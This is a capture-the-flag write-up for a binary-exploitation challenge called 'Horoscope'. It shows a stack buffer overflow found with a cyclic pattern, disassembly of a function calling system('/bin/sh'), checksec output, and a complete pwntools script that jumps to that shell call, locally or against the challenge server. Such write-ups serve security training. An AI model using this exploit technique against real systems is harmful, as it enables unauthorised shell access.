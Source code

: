 # Horoscope

## Challenge

This program will predict your future!

Connect ```nc horoscope.sdc.tf 1337```

[binary](horoscope)

By green beans

## Solution

The binary suffers from a buffer overflow

```
please put in your birthday and time in the format (month/day/year/time) and we will have your very own horoscope
6/1/22aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
wow, you were born in the month of June. I think that means you will have a great week! :)
Program received signal SIGSEGV, Segmentation fault.

pwndbg> x/s $rsp
0x7fffffffe388: "aanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab\n"
pwndbg> cyclic -l aana
50
```
The binary contains a call to ```system('/bin/sh')``` at ```0x40095f``` 

```
pwndbg> disassemble test
Dump of assembler code for function test:
   0x0000000000400950 <+0>:     push   rbp
   0x0000000000400951 <+1>:     mov    rbp,rsp
   0x0000000000400954 <+4>:     mov    eax,DWORD PTR [rip+0x200732]        # 0x60108c <temp>
   0x000000000040095a <+10>:    cmp    eax,0x1
   0x000000000040095d <+13>:    jne    0x40096b <test+27>
   0x000000000040095f <+15>:    lea    rdi,[rip+0x252]        # 0x400bb8
   0x0000000000400966 <+22>:    call   0x400600 <system@plt>
   0x000000000040096b <+27>:    nop
   0x000000000040096c <+28>:    pop    rbp
   0x000000000040096d <+29>:    ret    
End of assembler dump.
pwndbg> x/s 0x400bb8
0x400bb8:       "/bin/sh"
```

Since the binary does not have PIE or Stack Canaries enabled, the solution is fairly straightforward.

```
└─# pwn checksec ./horoscope 
[*] '/root/workspace/ctfs/sdctf/horoscope/horoscope'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Our final script:

```python
from pwn import *

binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary)
r = ROP(e)

gs = '''
continue
'''

def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote('horoscope.sdc.tf', 1337)
    else:
        return process(e.path)

p = start()

pad =b'6/1/22'+cyclic(50)
chain = p64(0x40095f)
p.sendline(pad+chain)
p.interactive()
```


